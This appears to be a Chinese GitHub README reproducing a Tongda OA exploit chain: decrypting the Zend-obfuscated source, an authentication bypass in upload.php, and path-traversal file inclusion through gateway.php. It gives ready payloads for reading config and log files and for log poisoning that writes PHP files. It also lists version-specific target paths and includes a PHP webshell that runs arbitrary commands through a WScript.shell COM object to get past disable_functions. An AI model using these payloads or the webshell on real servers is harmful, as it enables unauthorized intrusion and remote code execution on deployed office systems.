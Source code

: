 ## 通达OA



### 文件包含测试

文件包含检测，payload:

	ip/ispirit/interface/gateway.php?json={"url":"/general/../../mysql5/my.ini"}

利用文件包含访问mysql.ini,检查是否有某些特定字符串 ，比如```innodb_log_group_home_dir```
![](include-poc.jpg)

payload2:

	ip/ispirit/interface/gateway.php?json={}&url=/general/../../nginx/logs/oa.access.log

利用文件包含访问OA日志
![](include-poc2.jpg)

## 复现

下载源码，链接：https://pan.baidu.com/s/1HP5pDsAK2QLOWpnB1JX-Yg 提取码：vab0 

是个exe，安装解压完是php代码。

用Sublime打开，都是16进制加密

![](2.jpg)

用notepad打开显示，zend加密，

![](3.jpg)

[php在线解密网站](http://dezend.qiling.org/free.html)  解密出源代码。

**文件上传**

ispirit/im/upload.php

要上传首先需要绕过登陆验证，在本系统中auth.php是登陆验证的相关逻辑，但在upload.php未修复前，如果$P非空就不需要经过auth.php验证即可执行后续代码。利用此处逻辑漏洞可绕过登陆验证直接上传文件。

![](4.jpg)

经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

因上传后的文件不在根目录，所以无法直接利用，因此需要进行文件包含。
![](5.jpg)

**文件包含**

![](6.jpg)

与上传相反，这里不传P参数就可以文件包含。

未修复前，可通过精心构造json进入47行的includ_once进行文件包含。官方在补丁中过滤了 ```..```防止用户读取其他目录文件。

## POC

poc有很多，其一，

首先构造url并访问，在日志中写入一句话，原理是OA默认会将访问url，agent写日志。

	/ispirit/interface/gateway.php?json={}&a=<?php file_put_contents('1.php','hello123');?>

先在浏览器访问，

![](7.jpg)

发现"<"被浏览器url编码了

![](8.png)

用burp重新发包。

![](9.jpg)

成功写入日志。(写日志的方式省去了上传)

![](10.png)

文件包含

![](11.jpg)

如果php poc 为 ```<?php file_put_contents('1.php','hello123');?>```

则上传到 存在漏洞文件 gateway.php 同级目录，如果php poc为```<?php file_put_contents('../1.php','hello123');?>```,则上传到 上一级目录 ispirit 目录下。**注意路径**。


## exp

通过 upload.php 上传一个文件，可自定义后缀名。经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

**思路一**：

上传一个写shell的php文件，在利用文件包含写shell。

具体见exp.py。

**思路二**：

执行cmd, 

MYOA/bin/ 目录下的 php.ini 禁用了一些执行，命令的函数。

	disable_functions = exec,shell_exec,system,passthru,proc_open,show_source,phpinfo

	disable_classes =

参考[使用com组件绕过disable_functions](https://www.cnblogs.com/-qing-/p/10944118.html)。

eg:

	<?php
	$command=$_GET['a'];
	$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
	$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
	$stdout = $exec->StdOut();
	$stroutput = $stdout->ReadAll();
	echo $stroutput;
	?>

这里写的exp总是将post数据自动url编码。达不到burp的效果。

![](12.jpg)

<br/>

![](13.png)

查看资料，

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)

需要先设置一次请求头setHeader("Content-Type", "application/x-www-form-urlencoded")再将数据拼接成string格式再进行发送  ：)

终于写成了exp2.py。


## 版本路径

不同环境路径不同。

例如2013：

/ispirit/im/upload.php

/ispirit/interface/gateway.php

例如2017：

/ispirit/im/upload.php

/mac/gateway.php

## 后记

一些趣事。

正常该用post包含的。

![](post-include.jpg)

get包含就很玄学了。正常get请求(不空行)是不行的,在浏览器GET请求也是不能包含的。

![](include.jpg)

注意看我光标位置。必须空出来一行，否则不成功。get无请求体，不知道是什么原因。

![](include2.jpg)

空两行试试

![](include3.jpg)

发包，Content-Length都有了，可真牛啊。

![](include4.jpg)

wireshark抓个包,get没请求体呀。见```strange-get-include.pcap```。

![](1.jpg)



## 参考资料

https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247483673&idx=1&sn=a1f88fa6c62b3d6e80f0b8a4e6d87a37&chksm=fa8b1c81cdfc9597cef9f078508611f765360e049978ac53f00b6a608a0e21ec5704879000e4&mpshare=1&scene=1&srcid=&sharer_sharetime=1584615867059&sharer_shareid=5a0049ad005b04d2683ee755107dbbd6#rd


http://club.tongda2000.com/forum.php?mod=viewthread&tid=128372


[**PHP绕过disable_function限制（一）**](https://www.cnblogs.com/-qing-/p/10944118.html)

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)

![](14.png)